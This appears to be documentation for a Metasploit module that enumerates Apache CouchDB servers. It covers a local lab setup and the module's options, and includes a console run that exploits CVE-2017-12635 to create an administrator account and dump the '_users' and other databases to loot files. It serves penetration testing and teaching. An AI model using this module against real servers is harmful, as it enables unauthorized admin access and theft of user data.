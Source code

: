 ## Vulnerable Application

Apache CouchDB is a nosql database server which communicates over HTTP.  This module will enumerate the server and databases hosted on it.

The following was done on Ubuntu 16.04, and is largely base on [1and1.com](https://www.1and1.com/cloud-community/learn/database/couchdb/install-and-use-couchdb-on-ubuntu-1604/):

  1. `sudo apt install software-properties-common`
  2. `sudo add-apt-repository ppa:couchdb/stable`
  3. `sudo apt update`
  4. `sudo apt install couchdb`
  5. Reconfigure couchdb to listen to all interfaces. Edit `/etc/couchdb/local.ini`. Under `[httpd]` add the following line: `bind_address = 0.0.0.0`
  6. Restart the service: `sudo service couchdb restart`

## Verification Steps

  1. Install and configure couchdb
  2. Start msfconsole
  3. Do: `auxiliary/scanner/couchdb/couchdb_enum`
  4. Do: `run`

## Options

  **SERVERINFO**

  If set to `true`, the server info will also enumerated and set in msf's DB.  Defaults to `false`.

  **CREATEUSER**

  If set to `true`, the server info will attempt to create an account in CouchDB using configured credentials (limited to CVE-2017-12635 conditions). Defaults to `false`.

## Scenarios

Dumping databases with `SERVERINFO` and `CREATEUSER` set:

```
msf > use auxiliary/scanner/couchdb/couchdb_enum
msf auxiliary(scanner/couchdb/couchdb_enum) > options

Module options (auxiliary/scanner/couchdb/couchdb_enum):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CREATEUSER    false            yes       Create Administrative user
   HttpPassword  IJvoGDWAWzQo     yes       CouchDB Password
   HttpUsername  CQuXQnVwQAow     yes       CouchDB Username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target address range or CIDR identifier
   ROLES         _admin           yes       CouchDB Roles
   RPORT         5984             yes       The target port (TCP)
   SERVERINFO    false            yes       Print server info
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /_all_dbs        yes       Path to list all the databases
   VHOST                          no        HTTP server virtual host

msf auxiliary(scanner/couchdb/couchdb_enum) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/couchdb/couchdb_enum) > set serverinfo true
serverinfo => true
msf auxiliary(scanner/couchdb/couchdb_enum) > set createuser true
createuser => true
msf auxiliary(scanner/couchdb/couchdb_enum) > set verbose true
verbose => true
msf auxiliary(scanner/couchdb/couchdb_enum) > check

[+] 127.0.0.1:5984 - Found CouchDB version 2.1.0
[*] 127.0.0.1:5984 - The target appears to be vulnerable.
msf auxiliary(scanner/couchdb/couchdb_enum) > run

[+] 127.0.0.1:5984 - Found CouchDB version 2.1.0
[+] 127.0.0.1:5984 - User CQuXQnVwQAow created with password IJvoGDWAWzQo. Connect to http://127.0.0.1:5984/_utils/ to login.
[+] 127.0.0.1:5984 - {
  "couchdb": "Welcome",
  "version": "2.1.0",
  "features": [
    "scheduler"
  ],
  "vendor": {
    "name": "The Apache Software Foundation"
  }
}
[*] 127.0.0.1:5984 - Enumerating Databases...
[+] 127.0.0.1:5984 - Databases:

[
  "_global_changes",
  "_replicator",
  "_users"
]

[+] 127.0.0.1:5984 - File saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb.enum_790231.bin
[+] 127.0.0.1:5984 - _global_changes saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._global__841794.bin
[+] 127.0.0.1:5984 - _replicator saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._replica_022445.bin
[+] 127.0.0.1:5984 - _users saved in: /Users/wvu/.msf4/loot/20190107125002_default_127.0.0.1_couchdb._users_671128.bin
[*] Auxiliary module execution completed
msf auxiliary(scanner/couchdb/couchdb_enum) >
```
